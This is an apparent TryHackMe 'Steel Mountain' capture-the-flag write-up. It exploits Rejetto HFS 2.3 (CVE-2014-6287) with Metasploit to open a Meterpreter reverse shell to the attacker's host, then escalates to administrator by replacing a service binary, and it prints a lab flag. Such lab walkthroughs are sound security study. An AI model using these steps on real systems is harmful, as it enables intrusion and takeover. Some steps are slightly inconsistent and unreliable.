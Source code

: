 
---
title: "TryHackMe - Steel Mountain Walkthrough"
date: 2024-12-23
categories: [TryHackMe]
tags: [RCE, Metasploit, Privilege Escalation, CVE-2014-6287]
image: assets/images/Steel-Mountain-cover.jpg
---

# TryHackMe - Steel Mountain Walkthrough

---

## Initial Information
- **Target IP:** 10.10.32.47
- **Service:** HTTP File Server (HFS) v2.3

---

## Step 1: Explore the Target

### Access the Web Interface
Visit the target using a web browser:

```plaintext
http://10.10.32.47:8080/
```

HFS version identified: **Rejetto HTTP File Server 2.3**.

---

## Step 2: Vulnerability Analysis

### CVE Identification
The identified version is vulnerable to **CVE-2014-6287**, an unauthenticated Remote Code Execution vulnerability.

Refer to Metasploit for documentation:
[Metasploit Docs](https://docs.metasploit.com/).

---

## Step 3: Exploiting the Target

### Using Metasploit
Search for available exploits:

```bash
sleep33@THM:~$ msf6 > search rejetto
```

#### Relevant Modules:
1. **exploit/windows/http/rejetto_hfs_rce_cve_2024_23692**
2. **exploit/windows/http/rejetto_hfs_exec**

### Configure Exploit
Set up the exploit parameters:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.32.47
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST <Your_IP>
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
```

Run the exploit:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > run
```

---

## Step 4: Reverse Shell

Once the exploit is successful, a Meterpreter session is opened:

```bash
sleep33@THM:~$ [*] Meterpreter session 1 opened (10.14.91.33:4444 -> 10.10.32.47:49353)
```

#### Navigate to User Directory:
```bash
sleep33@THM:~$ meterpreter > cd c:/Users/bill/Desktop
sleep33@THM:~$ meterpreter > ls
```

Retrieve the user flag:

```bash
sleep33@THM:~$ meterpreter > cat user.txt
```

**User Flag:**  
```plaintext
b04763b6fcf51fcd7c13abc7db4fd365
```

---

## Step 5: Privilege Escalation

### Upload PowerUp Script
Use PowerSploit for privilege escalation:

```bash
sleep33@THM:~$ meterpreter > upload /opt/PowerSploit/Privesc/PowerUp.ps1
sleep33@THM:~$ meterpreter > load powershell
sleep33@THM:~$ meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

### Service Manipulation
Identify and modify services for escalation:

```bash
sleep33@THM:~$ copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService_V2.exe"
sleep33@THM:~$ sc start AdvancedSystemCareService9
```

---

## Step 6: Gain Administrator Privileges

Use Meterpreter's shell command to escalate privileges:

```bash
sleep33@THM:~$ meterpreter > shell
sleep33@THM:~$ C:\windows\Tasks> sc start AdvancedSystemCareService9
```

Once elevated, navigate to the Administrator's directory:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> dir
```

Retrieve the root flag:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> cat root.txt
```

---

## Troubleshooting

### Common Issues:
- **Handler failed to bind:** Ensure your LHOST and LPORT settings are correctly configured.
- **Session not opened:** Recheck the exploit parameters and ensure the target is reachable.

---

## Summary

- **Exploited Service:** Rejetto HFS v2.3
- **Exploited Vulnerability:** CVE-2014-6287
- **Flags Captured:**
  - **User Flag:** b04763b6fcf51fcd7c13abc7db4fd365
  - **Root Flag:** <root_flag_value>

---
